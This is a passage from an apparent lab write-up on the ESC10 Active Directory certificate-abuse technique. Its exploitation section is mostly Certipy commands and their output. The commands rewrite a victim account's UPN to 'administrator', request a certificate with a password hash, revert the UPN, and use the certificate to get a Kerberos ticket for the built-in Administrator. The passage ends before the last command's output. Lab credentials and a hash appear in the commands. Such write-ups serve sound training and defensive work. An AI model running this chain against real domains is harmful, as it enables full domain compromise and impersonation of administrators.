 ```
![ESC10_configuration.jpg](ESC10/ESC10_configuration.jpg)

## 11.2 Exploitation

- Modify the victim upn attribute to administrator
```
└─$ certipy account update -username "attacker@purpleteam.local" -p '1attacker*' -user victim -upn administrator
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Updating user 'victim':
    userPrincipalName                   : administrator
[*] Successfully updated 'victim'
```

- Request a certificate using the User template
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy req -username "victim@purpleteam.local" -hashes '426b549fe65d8fca40c950331006af8c' -target 172.16.0.1 -ca 'DC01-CA' -template 'USER'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 57
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-1116'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

- Undone the UPN attribute modification
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy account update -username "attacker@purpleteam.local" -p '1attacker*' -user victim -upn victim@purpleteam.local
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: PURPLETEAM.LOCAL.
[!] Use -debug to print a stacktrace
[*] Updating user 'victim':
    userPrincipalName                   : victim@purpleteam.local
[*] Successfully updated 'victim'
```

- Use the certificate to get a TGT for the built-in Administrator account
```
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy auth -pfx administrator.pfx -domain purpleteam.local -dc-ip 172.16.0.1 
Certipy v5.0.3 - by Oliver Lyak (ly4k)
